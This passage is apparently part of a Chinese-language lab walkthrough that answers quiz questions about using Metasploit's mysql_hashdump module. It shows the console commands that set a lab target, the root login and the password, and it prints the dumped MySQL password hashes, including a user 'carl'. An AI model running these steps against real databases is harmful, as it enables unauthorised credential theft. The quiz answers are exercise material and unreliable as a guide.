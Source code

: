 ````ad-details
collapse: true
title: 太棒了，你现在已经导出了整个数据库的表结构和列名。但我们可以做得更出色……搜索并选择`mysql_hashdump`模块。这个模块的全称是什么？
**答案** `auxiliary/scanner/mysql/mysql_hashdump `

```bash
msf6 auxiliary(scanner/mysql/mysql_schemadump) > use mysql_hashdump

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  auxiliary/scanner/mysql/mysql_hashdump  .                normal  No     MYSQL Password Hashdump
   1  auxiliary/analyze/crack_databases       .                normal  No     Password Cracker: Databases
   2    \_ action: hashcat                    .                .       .      Use Hashcat
   3    \_ action: john                       .                .       .      Use John the Ripper


Interact with a module by name or index. For example info 3, use 3 or use auxiliary/analyze/crack_databases
After interacting with a module you can manually set a ACTION with set ACTION 'john'

msf6 auxiliary(scanner/mysql/mysql_schemadump) > 
```


````

````ad-details
collapse: true
title: 再次，接下来就交给你了。设置相应的选项，执行漏洞利用。哪个非默认用户引起了你的注意？
**答案** `carl`


**解析** ：
- 参数配置
```bash
msf6 auxiliary(scanner/mysql/mysql_hashdump) > set PASSWORD password
PASSWORD => password
msf6 auxiliary(scanner/mysql/mysql_hashdump) > set RHOSTS 10.10.58.132 
RHOSTS => 10.10.58.132
msf6 auxiliary(scanner/mysql/mysql_hashdump) > set USERNAME root
USERNAME => root
msf6 auxiliary(scanner/mysql/mysql_hashdump) > options
...
msf6 auxiliary(scanner/mysql/mysql_hashdump) > run

```
- 结果
```bash
msf6 auxiliary(scanner/mysql/mysql_hashdump) > run 

[+] 10.10.58.132:3306 - Saving HashString as Loot: root:
[+] 10.10.58.132:3306 - Saving HashString as Loot: mysql.session:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[+] 10.10.58.132:3306 - Saving HashString as Loot: mysql.sys:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[+] 10.10.58.132:3306 - Saving HashString as Loot: debian-sys-maint:*D9C95B328FE46FFAE1A55A2DE5719A8681B2F79E
[+] 10.10.58.132:3306 - Saving HashString as Loot: root:*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
[+] 10.10.58.132:3306 - Saving HashString as Loot: carl:*EA031893AA21444B170FC2162A56978B8CEECE18
[*] 10.10.58.132:3306 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
````